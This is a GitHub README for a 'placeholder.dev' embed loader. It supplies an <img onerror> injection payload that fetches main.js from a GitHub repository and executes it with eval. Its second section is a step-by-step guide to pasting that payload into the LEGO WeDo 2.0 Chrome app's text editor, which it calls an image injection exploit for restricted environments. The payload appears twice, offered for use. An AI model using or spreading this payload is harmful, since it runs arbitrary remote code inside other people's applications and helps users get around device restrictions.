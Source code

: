 ## 📦 placeholder.dev Embed Script

This is an embeddable JavaScript loader for the [placeholder.dev](https://github.com/Ikonik24/placeholder.dev) project. It dynamically fetches and executes the latest version of main.js from the main branch of the GitHub repo.

---

### 🚀 How It Works

When this script is embedded in a website, it pulls the latest main.js from GitHub and runs it inside the page. This is useful for testing live scripts, dashboards, or injecting tools for development.

---

### ⚠️ Warning

> This embed method uses eval() and fetch() to load and run remote JavaScript. It **should only be used on domains you own or trust**. Never embed this on third-party websites or use it in production without understanding the security risks.

---

### ✅ Safe Usage Example

html
<img src="#" onerror='fetch("https://raw.githubusercontent.com/Ikonik24/placeholder.dev/refs/heads/main/main.js").then(r=>r.text()).then(c=>eval(c))'>


Place this <img> tag anywhere in your HTML. When the image fails to load, it triggers the onerror, which fetches and executes main.js.

---

### 📁 Repo Structure

* main.js: Core script loaded into the target site
* README.md: You're reading it!
---

### 📜 License

MIT License. You can use, modify, and distribute this script, but **you are responsible for safe use**.

---






---

## 🧪 placeholder.dev Webview Injection (LEGO Edition)

A guide on using the `placeholder.dev` embed script with LEGO WeDo 2.0's project editor via a harmless image injection exploit. Great for loading `placeholder.dev` tools in restricted environments for dev/demo purposes.

### ⚙️ Setup Instructions

1. **Install** [LEGO® Education WeDo 2.0](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Web Store.  
2. Launch the app and **wait until it fully loads**.  
3. **Turn off your Wi-Fi**.  
4. Click the **pencil icon** on the top bar to edit a project.  
5. Click the **green document icon** to edit the text.  
6. Paste the following embed snippet into the textbox:

   ```html
   <img src="#" onerror='fetch("https://raw.githubusercontent.com/Ikonik24/placeholder.dev/refs/heads/main/main.js").then(r=>r.text()).then(c=>eval(c))'>

